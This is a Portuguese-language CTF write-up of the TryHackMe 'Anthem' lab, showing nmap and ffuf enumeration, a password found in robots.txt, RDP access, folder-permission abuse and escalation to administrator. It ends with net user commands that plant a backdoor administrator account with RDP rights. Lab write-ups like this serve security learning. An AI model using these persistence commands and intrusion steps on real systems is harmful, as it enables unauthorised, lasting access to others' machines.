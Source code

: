 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - Anthem - Fácil
date: 2024-02-12 23:47:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, windows, web, facil, RDP]     # TAG names should always be lowercase
show_image_post: true
---
```


![Logo](/assets/img/Anthem.gif){: w="100" h="100" .left}

---
# **CTF - Anthem**
---
---
## **Enumeração**


### nmap

```shell
╭─      ~/thm/anthem         INT ✘  14s      
╰─ sudo nmap -sV -Pn -sS --min-rate 5000 -stats-every 5 -p- -oN nmap 10.10.56.228
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-09 23:26 -03
Nmap scan report for 10.10.56.228
Host is up (0.22s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.46 seconds
```
{: .nolineno }

Porta 80 blog:
![alt text](/assets/img/anthem1.png)

### ffuf

```shell
╭─      ~/thm/anthem            
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 200 -u http://10.10.56.228/FUZZ -e .html,.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.56.228/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Extensions       : .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Blog                    [Status: 200, Size: 5394, Words: 1311, Lines: 127, Duration: 760ms]
Archive                 [Status: 301, Size: 123, Words: 6, Lines: 4, Duration: 1778ms]
RSS                     [Status: 200, Size: 1873, Words: 240, Lines: 30, Duration: 1087ms]
Search                  [Status: 200, Size: 3468, Words: 520, Lines: 93, Duration: 866ms]
SiteMap                 [Status: 200, Size: 1041, Words: 94, Lines: 30, Duration: 1824ms]
archive                 [Status: 301, Size: 123, Words: 6, Lines: 4, Duration: 3680ms]
authors                 [Status: 200, Size: 4115, Words: 769, Lines: 112, Duration: 3017ms]
blog                    [Status: 200, Size: 5394, Words: 1311, Lines: 127, Duration: 5874ms]
categories              [Status: 200, Size: 3541, Words: 561, Lines: 104, Duration: 959ms]
install                 [Status: 302, Size: 126, Words: 6, Lines: 4, Duration: 2122ms]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11, Duration: 1935ms]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11, Duration: 2169ms]
rss                     [Status: 200, Size: 1873, Words: 240, Lines: 30, Duration: 4459ms]
search                  [Status: 200, Size: 3468, Words: 520, Lines: 93, Duration: 8148ms]
sitemap                 [Status: 200, Size: 1041, Words: 94, Lines: 30, Duration: 5927ms]
tags                    [Status: 200, Size: 3594, Words: 579, Lines: 105, Duration: 9615ms]
umbraco                 [Status: 200, Size: 4078, Words: 710, Lines: 96, Duration: 527ms]
```
{: .nolineno }

### robots.txt
A primeira linha aparenta ser uma senha.
![alt text](/assets/img/anthem2.png){: .normal}

Acessando `http://10.10.56.228/umbraco/` tem a tela de login.
![alt text](/assets/img/anthem3.png)

Em `http://10.10.56.228/authors` tem uma flag !
![alt text](/assets/img/anthem4.png)

Flag no código fonte da pagina inicial
![alt text](/assets/img/anthem5.png){: .normal}

Outra flag no código fonte do post `http://10.10.56.228/archive/we-are-hiring/`  
![alt text](/assets/img/anthem6.png){: .normal}

No outro post também tem no código fonte.  
![alt text](/assets/img/anthem7.png){: .normal}

Pra obter o nome de admin precisa pesquisar por esse poema que está no segundo post.
Odeio esses CTFS que envolvem esses tipos de coisas fora da realidade. XD  
![alt text](/assets/img/anthem8.png){: .normal}  
`Solomon Grundy`  

## **Acesso**
Tentativas de Login via RDP com usuário
SG deu certo junto da possível senha que estava em robots.txt
![alt text](/assets/img/anthem9.png)

### Primeira Flag no desktop
![alt text](/assets/img/anthem10.png)

## **Exploração e Escalação de Privilégio**

Alterando opções de pasta pra mostrar arquivos ocultos; encontrado pasta `backup` no c:/, sem permissões de acesso, contornado adicionado o usuário com permissão total na pasta.  

![alt text](/assets/img/anthem11.png){: .normal}  

Arquivo contem um texto que pode ser possível senha do admin:  

![alt text](/assets/img/anthem12.png){: .normal}  

Executei o comando `runas /user:administrator cmd.exe` pra abrir um novo terminal como admin.
![alt text](/assets/img/anthem13.png)

### Segunda Flag
E ai está a ultima flag:
![alt text](/assets/img/anthem14.png)

Pra estudo criei um usuário backdoor chamado pentest:senha123
Criar usuário.  
`net user /add pentest senha123`  

Adicionando ao grupo Admin  
`net localgroup administrators /add pentest`  

Adicionado ao grupo RDP pra poder logar via RDP  
`net localgroup "Remote Desktop Users" /add pentest`  

Logado nos 2 usuários via rdp.
![alt text](/assets/img/anthem15.png)